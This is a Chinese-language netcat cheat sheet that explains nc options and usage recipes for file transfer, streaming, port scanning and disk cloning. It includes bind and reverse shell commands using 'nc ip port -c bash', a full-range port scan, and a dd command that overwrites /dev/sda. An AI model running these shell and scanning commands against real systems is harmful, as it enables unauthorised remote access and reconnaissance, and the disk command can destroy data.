 nc -h
-c shell commands shell模式
-e filename 程序重定向 [危险!!]
-b 允许广播
-d 无命令行界面,使用后台模式
-g gateway 源路由跳跃点, 不超过8
-G num 源路由指示器: 4, 8, 12, ...
-h 获取帮助信息
-i secs 延时设置,端口扫描时使用
-k 设置在socket上的存活选项
-l 监听入站信息
-n 以数字形式表示的IP地址
-o file 使进制记录
-p port 本地端口
-r 随机本地和远程的端口
-q secs 在标准输入且延迟后退出（翻译的不是很好，后面实例介绍）
-s addr 本地源地址
-T tos 设置服务类型
-t 以TELNET的形式应答入站请求
-u UDP模式
-v 显示详细信息 [使用=vv获取更详细的信息
-w secs 连接超时设置
-z I/O 模式 [扫描时使用]

常用-n -v -l -p -q

## 1. NC远程控制
A: nc -lp port -c bash
B: nc ip port 
A将自己的bash发送给B

# 反向连接, 由于防火墙的存在，这个更常用
A: nc -lp port 
B: nc ip port -c bash

# 2. 信息收集
nc -l -p port 监听指定端口
nc -nv ip port 连接对方端口
nc -l -p 4444 > wing.txt 将远程发送的内容保存在本地
Ps aux | nc -nv ip port -q 1 标准输入完成后delay一秒钟，会发送侦听端

# 3. NC传输文件/目录
nc -lp 4444 >1.txt 1.txt就是你要保存的文件名 自定义

nc -nv ip port <1.txt -q 1 将文件发送给侦听端
ps：侦听端的文件名最好按照文件本身来命名

tar -cvf - 目录名/|nc -lp port -q 1
将目录打包
nc -nv ip port |tar -xvf -
将目录解包

NC文件加密传输
apt-get install mcrypt
A： nc -lp port|mcrypt - -flush -Fbqd -a rijndael-256 -m ecb >文件名
B：mcrypt --flush -Fbq -a rijndael-256 -m ecb <文件名|nc -nv ip port -q 1
理解：B将文件加密发送，A接受后先解密再保存到本地，B在1s后退出.
主要是利用mcrypt进行加密

NC流媒体服务
A:cat wing.mp4|nc -lp port
B:nc -nv ip port |mplayer -vo x11 -cache 4000
A让wing.MP4这个文件成为流的形式发送到B，B用mplayer播放，接收多少播放多少，指定缓存4000bytes。

NC端口扫描
nc -nvz ip 1-65535

默认使用tcp进行扫描

NC复制磁盘
A:nc -lp port |dd of=/dev/sda
B: dd if=/dev/sda | nc -nc ip port -q 1
If是input filter
Of 是output filter
B将数据复制到A挂载的硬盘上
